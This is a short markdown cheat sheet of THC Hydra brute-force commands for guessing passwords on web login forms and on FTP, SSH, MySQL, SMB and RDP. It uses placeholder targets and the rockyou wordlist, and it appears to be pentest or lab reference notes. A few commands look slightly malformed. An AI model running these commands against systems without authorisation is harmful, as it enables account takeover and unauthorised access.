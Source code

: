 # Brute Force THCHydra

## HTTP Post Web Form

$ hydra -l user -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "Login Page:Request Body:Error Message"

$ hydra -l admin -P /dir/passwd-list.txt http://example.com  http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V

$ hydra -l molly -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login:username=^USER^&password=^PASS^:Your username or password is incorrect."

$hydra -l admin -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/admin/:user=^USER^&pass=^PASS^:Username or password invalid"

$hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP http-post-form "/login.php:username=^USER^&password=^PASS^:Login Failed"

## FTP

$ hydra -l user-name -P /usr/share/wordlists/rockyou.txt Target_IP ftp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ftp://Target_IP

## SSH

$ hydra -f -l user_name -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 ssh

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt ssh://IP_Address:2222

## MySQL

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t mysql

## SMB

$ hydra -f -l user -P /usr/share/wordlists/rockyou.txt Target_IP -t 4 smb

## RDP

$ hydra -l username -P /usr/share/wordlists/rockyou.txt Target_IP rdp

$ hydra -L /full/path_to/user-name-list.txt -P /full/path_to/passwd-list.txt -t 4 -W 3 rdp://IP_Address:33389/

## Links

Fonte: https://www.stationx.net/how-to-use-hydra

Fonte: https://www.kali.org/tools/hydra

Fonte: https://github.com/vanhauser-thc/thc-hydra
